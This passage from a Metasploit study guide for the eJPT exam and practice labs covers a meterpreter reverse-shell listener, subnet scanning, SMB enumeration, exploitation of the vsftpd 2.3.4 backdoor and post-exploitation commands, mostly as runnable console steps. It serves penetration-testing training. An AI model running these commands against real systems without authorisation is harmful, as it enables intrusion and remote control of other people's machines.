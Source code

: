 Catch shells with multi/handler:
```text
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.1.50
set LPORT 4444
set ExitOnSession false
run -j
```

Note: Encoders (e.g., -e x86/shikata_ga_nai) rarely bypass modern AV/EDR; rely on OPSEC and proper delivery where allowed in labs.

## Practical tips
- Use info and check before running; prefer exploits with rank Excellent/Great.
- Set setg LHOST and THREADS early to reduce repetitive typing.
- Import Nmap results if db_nmap is not available; use db_import.
- Use run/exploit -j -z to keep your console free while the job runs.
- After exploitation, background quickly and record evidence: creds, loot, notes.
- Use workspaces per target/network to keep data organized.
- If a module fails, read last error, show advanced options, try a different payload/target.
- Meterpreter is powerful but noisy; in exams/labs it’s fine—still try to pick stable payloads.
- Keep handlers running persistently with ExitOnSession false when delivering multiple payloads.

## Minimal cheat sheet (one-screen flow)
```text
# Start and open MSF
sudo systemctl enable --now postgresql
msfdb init
msfconsole

# Workspace + logging
workspace -a eJPT
spool /tmp/msf.log
db_status

# Scan/import
db_nmap -sV -O -p- 10.10.10.0/24
# or: db_import scan.xml
hosts
services

# Enumerate
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.0/24
run

# Find exploit
search type:exploit name:vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.5
check
run

# Sessions
sessions
sessions -i 1
getuid; sysinfo; background

# Post
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```